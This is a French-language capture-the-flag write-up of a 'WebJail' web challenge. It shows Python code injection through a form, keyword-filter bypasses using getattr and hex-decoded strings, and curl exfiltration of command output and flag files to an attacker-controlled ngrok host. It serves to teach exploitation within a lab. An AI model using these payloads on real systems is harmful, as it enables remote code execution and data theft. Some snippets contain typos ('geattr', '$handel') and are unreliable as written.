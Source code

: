 # WebJail

## Solution

- Le challenge nous fournit une page qui nous offre la possibilité d'exécuter des commandes via un formulaire.
- Note, les données de formulaire sont représentées de la manière suivante: ``command=rand&execute=Execute``
<br/>

![image](https://user-images.githubusercontent.com/74382279/157317880-896d7863-c7bd-4384-8bc6-b6ae7b3081a3.png)

- J'essaye d'envoyer une commande Python: ```py print(1)```, mais aucun résultat. Je suppose donc qu'on doit jouer avec la requête pour trouver le bon point d'entrée.<br/>
- Pour ce faire je teste plusieurs techniques d'escape, quand finalement j'obtiens un résultat différent. La commande suivante: ``);print(1)#``

![image](https://user-images.githubusercontent.com/74382279/157317785-2baf2def-ea0a-48e6-9e94-1079e55cc2a7.png)

- L'idée est d'importer une lib (os) pour exécuter des commandes Bash. Donc je tente d'importer la lib ``os`` pour exécuter ``id``: ``);import os;os.popen('id').read()#``.
- Malheur, j'obtiens la réponse ``Blocked``. Je pars du principe que le chall contient un filtre qui match plusieurs fonctions Python.
<br/>

![image](https://user-images.githubusercontent.com/74382279/157318532-29ad4480-d328-4db3-afcd-5042f5be7e0e.png)

- Je vais devoir builtin des fontions à partir de la lib ``__builtins__``.
- La méthode ``getattr()`` renvoie la valeur de l'attribut nommé d'un objet. S'il n'est pas trouvé, il renvoie la valeur par défaut fournie à la fonction.
- ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('id')#``, par défaut j'utilise une méthode de concaténation pour éviter de faire trigger la commande par le filtre.
- N'oublions pas que la méthode ``read()`` n'est pas acceptée. Dans ce contexte on est supposé d'envoyer la requête en stdout vers un serveur web qu'on hébergera localement pour recept les données ``POST``. Tout ça ``OOB`` (Out of band). Les données ``OOB`` sont transférées via un flux indépendant du flux de données principal dans la bande.
- J'utilise Wampserv comme hébergeur local. First of all je script la fonction suivante en ``PHP``:

```php
<?php

if(isset($_POST["data"]) && !empty($_POST["data"])) {
  $handle = fopen("data.txt", "a+");
  fwrite($handel, $_POST["data"] . "\n");
  fclose($handle);
}

echo file_get_contents("data.txt");

?>
```

- J'héberge le fichier ``PHP`` dans le dossier ``tmp``. Comme tunnel j'utilise ``ngrok``: ``ngrok http 80``.
- J'ai maintenant mon lien, que je peux exploiter pour recept les données.
- Je reviens à la base, mais cette fois-ci en utilisant ``curl`` pour renvoyer une requête ``POST``: ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('curl\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- J'obtiens ``Blocked``, le filtre a donc trigger une partie de la commande. Ayant la flemme de chercher une alternative (``wget triggered``). Je teste plusieurs techniques de bypass: ``'CURL'.lower()`` => ``Blocked``. Puis une ne méthode de chiffrement pour déchiffrer dynamiquement et exécuter ``curl``.
```py
>>> ''.join([str(hex(ord(s)))[2:4] for s in 'curl'])
'6375726c'
>> ''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])
'curl'
```
- Vous avez dû remarquer, j'ai réécrit la fonction ``hex()`` pour éviter une autre fois le filtre (Les méthodes ``bytes.fromhex()`` & ``bytearray.fromhex()`` sont filtrés) . Comme requête finale j'obtiens:
``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- Le serveur me renvoit bien la réponse:
<br/>

![image](https://user-images.githubusercontent.com/74382279/157323813-016de65c-4062-467f-a1a1-b2747ddee541.png)

``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(cat flag/*)\x22\x20https://rand.ngrok.io/tmp')#``

- J'ai bien aimé l'approche du challenge. Je tiens à préciser que plusieurs techniques d'importation de l'objet ``__builtins__`` étaient filtrés:
```py
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```
- Le module préimporté ``reload()`` était match. La variable ``__class__`` pareil.
- Je suis donc parti du principe que je devais utiliser ``getattr()``.
- Merci d'avoir lu cette mini-writeup d'un challenge web que j'ai trouvé assez sympa à solve.
